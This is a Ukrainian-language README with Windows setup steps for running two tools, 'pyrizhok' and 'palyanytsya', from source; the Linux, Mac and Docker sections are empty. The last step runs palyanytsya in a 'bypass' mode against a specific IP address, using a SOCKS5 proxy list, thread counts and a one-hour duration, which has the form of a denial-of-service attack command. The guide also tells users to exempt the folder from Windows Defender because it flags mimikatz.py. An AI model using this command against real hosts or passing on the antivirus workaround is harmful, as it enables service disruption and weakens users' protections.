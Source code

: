 # 🥡 Запуск вихідного коду

У цьому документі зібрані інструкції щодо того, як можна запустити пиріжок та паляницю з вихідного коду, без створення білдів.

Зважаючи на те, що команди мають певні відмінності в залежності від платфоми, оберіть гайд під свою платфому:

- [Windows](#windows)
- [Linux](#linux)
- [Mac](#mac)
- [Docker](#docker)

---

## <a name="windows"></a>💻 Windows

Щоб запустити софт на Windows:

1. Встановіть [Git][git-download-windows].

2. Встановіть [Python 3.10.2][python-3.10.2-download].
   > **⚠** Паляниця з пиріжком потребують версію Python не менше ніж [**3.10.2**][python-3.10.2-download].

3. Відкрийте командний рядок: 
   - натисніть **_Win+R_**
   - у з‘явившемуся вікні введіть: **_cmd_**
   - натисніть **_Enter_**

4. Перейдіть до папки, в яку ви завантажете паляницю. Наприклад:
   ```shell
   cd "C:\Users\USER_NAME\Downloads"
   ```
   > **💡** Щоб легко знайти повний шлях до бажаної папки, перейдіть до неї в Провіднику та скопіюйте адресу звідти. Потім перейдіть до цієї папки в cmd додавши ії до команди cd (як у прикладі вище).

5. Завантажте проект:
   ```shell
   git clone https://github.com/pocket-sunflower/palyanytsya.git
   ```
   
6. Перейдіть до папки проекту:
   ```shell
   cd palyanytsya
   ```

7. Встановіть [**_virtualenv_**][virtualenv] за допомогою **_pip_**:
   ```shell
   pip install virtualenv
   ```

8. Створіть віртуальне середовище:
   ```shell
   virtualenv --python python3.10 venv
   ```
   
9. Активуйте віртуальне середовище:
   ```shell
   source venv/bin/activate
   ```
   
10. Встановіть залежності:
    ```shell
    pip install -r requirements.txt
    ```
    > **ℹ** Якщо ви працюєте на Windows 10, можлива помилка при встановленні бібліотеки [impacket][impacket]. Причина в тому, що це бібліотека для аналізу мережевих пакетів, яка може блокуватися Windows Defender (а саме, блокується файл _mimikatz.py_). Щоби позбігтися помилок при встановленні залежностей, [додайте папку з паляницею до списку винятків Windows Defender][windows-defender-exception]. Після цього, запустіть команду знову.

11. Все готове до запуску! Запустіть **пиріжок**:
    ```shell
    python pyrizhok.py
    ```
    …або **паляницю**:
    ```shell
    python palyanytsya.py bypass 194.85.30.210 5 100 socks5.txt 10000 3600
    ```

---

## <a name="linux"></a>🐧 Linux

Щоб запустити софт на Linux:

---

## <a name="mac"></a>🍎 Mac

Щоб запустити софт на Mac:

---

## <a name="docker"></a>🐋 Docker

Щоб запустити софт на Docker:

---

[< back](../README.md)

<!--- References --->
[virtualenv]: https://virtualenv.pypa.io/en/latest/
[git-download-windows]: https://git-scm.com/download/win
[python-3.10.2-download]: https://www.python.org/downloads/release/python-3102/
[impacket]: https://pypi.org/project/impacket/
[windows-defender-exception]: https://support.microsoft.com/uk-ua/windows/%D0%B4%D0%BE%D0%B4%D0%B0%D0%B2%D0%B0%D0%BD%D0%BD%D1%8F-%D0%B2%D0%B8%D0%BD%D1%8F%D1%82%D0%BA%D1%83-%D0%B4%D0%BE-%D1%81%D0%BB%D1%83%D0%B6%D0%B1%D0%B8-%D0%B1%D0%B5%D0%B7%D0%BF%D0%B5%D0%BA%D0%B0-%D1%83-windows-811816c0-4dfd-af4a-47e4-c301afe13b26
